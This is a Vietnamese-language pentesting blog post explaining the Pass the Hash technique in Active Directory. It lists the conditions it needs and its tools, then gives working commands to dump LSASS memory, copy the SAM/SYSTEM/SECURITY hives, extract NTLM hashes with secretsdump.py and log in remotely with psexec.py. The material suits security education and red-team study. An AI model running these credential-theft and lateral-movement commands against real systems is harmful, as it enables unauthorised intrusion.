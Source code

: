 ```yaml
---
title: Pass The Hash
date: 2025-08-13 22:50:30 +/-TTTT
categories: [Pentesting, AD]
tags: [Active Directory Pentesting] 

image:
  path: /assets/img/AD/AD.png
#   alt: image alternative text
---
```



### Giới thiệu
Pass the Hash (Pth) là một kỹ thuật dùng NTLM hash nổi tiếng trong Red Team / Pentest, cho phép kẻ tấn công xác thực vào các hệ thống Windows **mà không cần biết mật khẩu gốc**, chỉ cần có **hash (băm)** của mật khẩu đó.
- Khi người dùng đăng nhập, Windows không lưu mật khẩu dạng rõ (plaintext), mà lưu **hash** (thường là NTLM hash).
- Nếu attacker lấy được NTLM hash, họ có thể dùng nó **để đăng nhập như thể có mật khẩu thật**, **không cần crack**.

### Điều kiện khai thác
- Kẻ tấn công có quyền đọc hash trên máy đã xâm nhập (thường là **local admin**) và đích **chấp nhận NTLM** (SMB/WMI/WinRM…):
	- Truy xuất **LSASS** (dump hash NTLM của tài khoản đang logon) hoặc đọc **SAM, SECURITY, SYSTEM**
- - Máy đích **cho phép NTLM** (nhiều dịch vụ Windows vẫn hỗ trợ).
    
- Đường đi lateral mở: **SMB 445**, **WMI (DCOM/135 + dynamic ports)**, **WinRM 5985/5986**, đôi khi **RDP 3389**.
    
- **Mật khẩu local admin trùng nhau** trên nhiều máy (thiếu LAPS) → lateral cực dễ.

### Kỹ thuật hoạt động của Pass the Hash
- Lợi dụng việc các giao thức như SMB, WMI, WinRM… chấp nhận **NTLM authentication**
- Kẻ tấn công "inject" hash vào phiên làm việc hoặc dùng công cụ để xác thực từ xa bằng hash đó

### Tool
{% raw %}
| **Công cụ** | **Mô tả** |
| --- | --- | 
| mimikatz | Inject hash vào tiến trình hiện tại |
| psexec.py (Impacket) | Kết nối từ xa qua SMB bằng hash |
| wmiexec.py (Impacket) | Thực thi lệnh từ xa bằng hash |
| pth-winexe, pth-smbclient | Dùng trong môi trường Linux để xác thực bằng hash |
{% endraw %}


### Chuỗi tấn công Pash the Hash
**1. Foothold** trên 1 endpoint.
    
**2. Thu thập hash**: đọc từ **LSASS**/**SAM** 

 LSASS lưu credential người dùng đăng nhập gần đây.
 
	 Dump trực tiếp từ task:
		
		tasklist | findstr lsass
		procdump.exe -accepteula -ma <PID> lsass.dmp
		
		
	 Dùng PowerShell:
		
		rundll32.exe comsvcs.dll, MiniDump <PID> lsass.dmp full
		

	 Dump từ Task Manager (GUI):
	 
	   Bước 1: Mở Task Manager
		   - Nhấn Ctrl + Shift + Esc hoặc chuột phải Taskbar → chọn **Task Manager**
	   Bước 2: Chuyển sang tab Details
		   - Tìm tiến trình tên lsass.exe
	   Bước 3: Dump file
		   - Chuột phải vào lsass.exe → chọn **"Create dump file"**
	   Bước 4: Xem vị trí file dump
		   - Windows sẽ tạo lsass.DMP tại: C:\Users\<YourUser>\AppData\Local\Temp\lsass.DMP

Dump file chứa Hash và Credential

	- SAM, SYSTEM, SECURITY – chứa local hash và policy -> thực hiện copy 3 file 
		
		copy C:\Windows\System32\config\SAM C:\Temp\SAM
		copy C:\Windows\System32\config\SYSTEM C:\Temp\SYSTEM
		copy C:\Windows\System32\config\SECURITY C:\Temp\SECURITY
		
		
	- Sử dụng secretsdump.py (Impacket) hoặc mimikatz để extract hash
	
	- link tool impacket https://github.com/fortra/impacket.git
		
		secretsdump.py -system SYSTEM -sam SAM -security SECURITY LOCAL
		
	VD: dump được NTLM hash của user admin 
		Username: admin 
		NTLM: aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99
		Thực hiện kết nối SMB từ xa bằng hash:
		 psexec.py 'DOMAIN/admin@10.10.10.10' -hashes :5f4dcc3b5aa765d61d8327deb882cf99
	
		

  
**3. Tái sử dụng hash** để xác thực NTLM tới máy khác (SMB/WMI/WinRM).
    
**4. Thực thi từ xa**: tạo service tạm, WMI process, hoặc WinRM session.
    
**5. Mở rộng quyền**: tìm tài khoản có quyền cao hơn; di chuyển tới **server nhạy cảm/DC**.




